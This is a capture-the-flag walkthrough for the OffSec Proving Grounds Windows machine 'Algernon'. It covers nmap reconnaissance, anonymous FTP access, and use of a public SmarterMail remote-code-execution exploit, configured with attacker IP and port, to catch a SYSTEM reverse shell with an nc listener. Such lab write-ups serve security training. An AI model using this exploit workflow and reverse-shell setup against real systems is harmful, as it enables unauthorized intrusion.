 ```yaml
---
layout: post
title: Algernon - Proving Grounds
date: 31-01-2025
categories: [Writeups]
tag: [Proving Grounds, Windows, Easy]
---
```


# Algernon - Walkthrough

Algernon is an easy box on OFFSEC’s Proving Grounds and the community agrees that it is easy difficulty. 

- [Algernon - Walkthrough](#algernon---walkthrough)
  - [Recon](#recon)
  - [Enumeration](#enumeration)
  - [Exploitation](#exploitation)


## Recon
Start scanning all ports:
```
nmap -p- 192.168.234.65 -T 5 -v    
```
![Scan de todas as portas](/assets/images/Algernon/1.png)

Scanning only the open doors we found:

```
nmap -sC -sV -Pn 192.168.234.65 -p 21,80,135,139,445,5040,9998,49664,49665,49666,49668,17001  -v
```

## Enumeration

I logged in anonymously to ftp with the login anonymous and no password.
Inside the Logs folder I found a file called 2020.05.12-administrative.log

![ftp](/assets/images/Algernon/3.png)

I downloaded the file containing the following information:

![ftp](/assets/images/Algernon/4.png)

I accessed port 9998, which directed me to an email service called SmarterMail:

![smartermail](/assets/images/Algernon/5.png)

## Exploitation
I searched the exploit db for an exploit and found the SmarterMail Build 6985 - Remote Code Execution exploit. I downloaded it with searchsploit:

```
searchsploit -m 49216   
```
Then I edited the exploit by putting in the target's ip and my ip and port that was waiting for the connection:

```
HOST='192.168.234.65'
PORT=17001
LHOST='192.168.45.162'
LPORT=4444
```
I saved the file and started my listener:
```
 nc -lnvp 4444
```
I ran the exploit and got the shell with the user nt authority\system, browsed the host and found the flag on the user administrator's desktop

![smartermail](/assets/images/Algernon/6.png)

